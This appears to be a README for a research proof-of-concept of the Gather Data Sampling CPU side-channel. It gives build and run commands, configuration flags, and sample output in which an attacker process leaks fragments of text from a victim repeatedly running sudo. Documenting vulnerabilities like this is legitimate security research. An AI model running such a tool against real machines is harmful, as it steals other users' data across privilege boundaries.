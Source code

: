 # Spying on ascii words with GDS

This is a proof-of-concept attack that spaws a number of threads across differnt CPUs thread and leaks various parts of the vector register, when it sees printable characters.


## Usage
`make clean && make`

`./gds`

## config.h
* P_CACHE_MISS: Prepare the transient window with cache modifying instructions
* ASSIST_UC: Use an uncacheable memory to trigger speculative data forwarding for `Gather`. Otherwise, it just does it naturally.
* AVX_512: Tests Gather on with AVX-512 instructions (Only supported on more recent CPUS).


## Example output
The victim runs this to trigger some root-privileged action:
```
victim@laptop:~$ seq 10000000 | xargs -I -- sudo true
```

The attacker steals text:
```
danielmm@laptop:~/PATH/POC/gds_spy$ ./gds | head
cpu_0_vector[0]: 2114
cpu_6_vector[4]: _TIMESTA
cpu_6_vector[9]:      un
cpu_6_vector[13]: di=0;33;
cpu_6_vector[0]: -Lapt
cpu_0_vector[0]: danielmm
cpu_6_vector[14]: 5:*.avi=
cpu_6_vector[2]: rc/s
cpu_0_vector[2]: led to p
cpu_0_vector[12]: MESSAGES
```



